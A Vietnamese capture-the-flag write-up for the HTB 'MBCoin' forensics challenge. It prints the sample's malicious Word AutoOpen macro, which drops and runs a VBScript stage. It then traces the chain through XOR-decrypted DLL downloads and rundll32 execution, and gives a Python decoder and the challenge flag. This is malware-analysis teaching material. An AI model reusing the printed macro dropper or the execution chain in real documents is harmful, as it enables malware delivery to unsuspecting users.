

# MBCoin-htb-med



Bài này cung cấp cho mình 1 file doc và 1 file pcap giờ mình kiểm tra file doc trước

```python
  MBCoin olevba mbcoin.doc
olevba 0.60.2 on Python 3.13.7 - http://decalage.info/python/oletools
===============================================================================
FILE: mbcoin.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: mbcoin.doc - OLE stream: 'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO bxh.bas
in file: mbcoin.doc - OLE stream: 'Macros/VBA/bxh'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub AutoOpen()
    Dim QQ1 As Object
    Set QQ1 = ActiveDocument.Shapes(1)
    Dim QQ2 As Object
    Set QQ2 = ActiveDocument.Shapes(2)
    RO = StrReverse("\ataDmargorP\:C")
    ROI = RO + StrReverse("sbv.nip")
    ii = StrReverse("")
    Ne = StrReverse("IZOIZIMIZI")
    WW = QQ1.AlternativeText + QQ2.AlternativeText
    MyFile = FreeFile
    Open ROI For Output As #MyFile
    Print #MyFile, WW
    Close #MyFile
    fun = Shell(StrReverse("sbv.nip\ataDmargorP\:C exe.tpircsc k/ dmc"), Chr(48))

    waitTill = Now() + TimeValue("00:00:05")
    While Now() < waitTill
    Wend
    MsgBox ("Unfortunately you are not eligable for free coin!")
    End

End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Output              |May write to a file (if combined with Open)  |
|Suspicious|Print #             |May write to a file (if combined with Open)  |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|StrReverse          |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
+----------+--------------------+---------------------------------------------+

➜  MBCoin
```

Chuỗi hành vi là:

1. Nạn nhân mở `mbcoin.doc`
2. Nếu bật macro, `AutoOpen()` chạy
3. Macro lấy dữ liệu ẩn trong:
    - `Shapes(1).AlternativeText`
    - `Shapes(2).AlternativeText`
4. Ghép 2 đoạn đó thành một file VBScript
5. Ghi file ra:
    - `C:\ProgramData\pin.vbs`
6. Thực thi:
    - `cmd /k cscript.exe C:\ProgramData\pin.vbs`
7. Hiện hộp thoại đánh lạc hướng

Nói ngắn gọn: **Word macro dropper** tạo và chạy **giai đoạn 2 là VBScript**.

Tiếp giờ mình mở file word lên và xem ở all tert vì đây la nơi lưu các đonạ mã hóa


`pin.vbs` tiếp tục nó download 5 url về sau đó. Script này tạo nhiều lệnh PowerShell bị obfuscate, dùng để đọc các file `C:\ProgramData\www1.dll` đến `C:\ProgramData\www5.dll`, rồi giải mã chúng bằng phép **XOR với khóa lặp lại**. Kết quả giải mã được ghi thành `C:\ProgramData\www.dll`.

Sau khi đợi quá trình giải mã hoàn tất, script thực thi payload cuối bằng lệnh:

`rundll32.exe C:\ProgramData\www.dll,ldr`

Cuối cùng, malware cố gắng xóa các file trung gian như `www*` và `pin*` để xóa dấu vết.

Tóm lại, chuỗi thực thi của mẫu độc hại là:

**Word macro → drop `pin.vbs` → PowerShell XOR-decrypt các DLL → tạo `www.dll` → chạy bằng `rundll32` → cleanup**

vì các dữ liệu dược ghi đè vào nhau nên  khi và file pcap mọi người sẽ thấy 

### 1. Request 1

- DNS resolve được
- HTTP trả về `200 OK`
- body nhìn như **binary blob**

=> request này **có thể** là một file mã hóa hợp lệ.

---

### 2. Request 2

- DNS **không resolve được**

=> không tải được gì

=> chắc chắn **không thể** tạo DLL.

---

### 3. Request 3

- DNS resolve được
- nhưng webserver trả `404`

=> chỉ tải về **trang lỗi**, không phải payload DLL hợp lệ

=> coi như **không dùng được**.

---

### 4. Request 4

- DNS resolve được
- HTTP trả `200 OK`
- body lại giống **binary blob**

=> đây cũng là một **ứng viên hợp lệ**.

---

### 5. Request 5

- DNS **không resolve được**

=> không có payload.

nên đến cuois thì request 4 sẽ chưa nội dung của toàn bộ dữ liệu

tiesp mình export nó ra và decode 

```python
from pathlib import Path

data = Path("vm.html").read_bytes()
key = b"6iIoNoMk5iRYAw7ZTWed0CrjuZ9wijyQDjPy9Ms0D8K0Z2H5MX6wyOKqFxlOm1GpjmYfaQXacA6"
out = bytes(b ^ key[i % len(key)] for i, b in enumerate(data))
Path("www.dll").write_bytes(out)
```

> 
> 
> 
> ➜  MBCoin file www.dll
> www.dll: PE32+ executable for MS Windows 6.00 (DLL), x86-64, 6 sections
> ➜  MBCoin
> 

tiếp mình sẽ mở nó bằng ida và soi hàm ldr 

Vì script chạy:

```
rundll32.exe C:\ProgramData\www.dll,ldr
```


HTB{wH4tS_4_sQuirReLw4fFl3?}
